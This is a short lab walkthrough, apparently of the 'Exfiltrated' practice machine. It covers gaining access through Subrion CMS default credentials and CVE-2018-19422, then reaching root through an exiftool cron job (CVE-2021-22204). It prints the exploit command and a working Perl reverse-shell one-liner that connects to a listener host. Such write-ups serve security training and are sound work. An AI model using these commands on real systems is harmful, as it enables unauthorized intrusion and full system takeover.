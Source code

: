 # Exfiltrated (Linux)

## Initial Foothold

Added the target hostname to `/etc/hosts` for easier access. Identified a Subrion CMS admin panel and successfully logged in with default credentials `admin:admin`. Cloned the [CVE-2018-19422 SubrionCMS RCE exploit](https://github.com/hev0x/CVE-2018-19422-SubrionCMS-RCE) and ran:

    sudo python3 SubrionRCE.py -u http://192.168.173.163/panel/ -l admin -p admin

Obtained a shell using a Perl reverse shell (only Perl, not /bin/sh, worked) after starting a netcat listener on port 80:

    perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.166:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

Upgraded to a stable shell using Python3.

## Privilege Escalation

Ran `linpeas.sh` and found a root cron job running `exiftool` on an uploaded image. Used the [CVE-2021-22204 exiftool exploit](https://github.com/mr-tuhin/CVE-2021-22204-exiftool), uploaded a malicious image to the target's uploads folder, started a netcat listener on port 80, and received a root shell when the cron executed.
